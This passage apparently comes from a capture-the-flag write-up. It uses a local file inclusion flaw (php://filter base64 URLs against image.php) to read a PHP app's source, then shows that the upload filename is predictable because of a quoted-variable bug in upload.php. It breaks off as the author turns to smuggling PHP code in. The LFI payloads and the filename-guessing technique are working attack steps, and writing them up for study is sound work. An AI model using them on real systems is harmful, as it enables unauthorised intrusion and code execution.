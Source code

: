 In order to whitebox analyze this app I downloaded the following php files with the LFI:

```text
http://10.10.11.135/image.php?img=php://filter/convert.base64-encode/resource=upload.php
http://10.10.11.135/image.php?img=php://filter/convert.base64-encode/resource=image.php
```

In the `upload.php` file is the following code:

```php
<?php
// ...
// upload.php
$upload_dir = "images/uploads/";

if (!file_exists($upload_dir)) {
    mkdir($upload_dir, 0777, true);
}

$file_hash = uniqid();

$file_name = md5('$file_hash' . time()) . '_' . basename($_FILES["fileToUpload"]["name"]);
$target_file = $upload_dir . $file_name;
$error = "";
$imageFileType = strtolower(pathinfo($target_file, PATHINFO_EXTENSION));
// ...
```

So presumably the resulting file will be in `images/uploads/` and the filename would be:

```php
md5( uniqid() . time() ) . '_' . 'example.jpg'
```

E.g. `2e47a134b2def213d5453367e030a09f_example.jpg`

* `uniqid()` -- generates a hex representation of the current UNIX timestamp (microsecond precision)
* `time()` -- generates the current UNIX timestamp as integer (only seconds precision)
* `md5()` -- creates an md5 hash

So all parts of this filename are predictable. Only the inclusion of microseconds could force us to use a large number of requests to find the right filename.

But there is actually a bug in this code that is easy to overlook:

`'$file_hash'` is hardcoded as a string, instead of using the actual value of the variable `$file_hash`. So in effect we only have to guess the correct second.

In summary, the filename will be:

```php
md5( '$file_hash' . time() ) . '_' . 'example.jpg'
```

With this we will only need to check the current second plus/minus a few seconds to compensate for clock skew and response time.

Now that we have figured out how to find the uploaded file, how do we smuggle in some PHP code? 
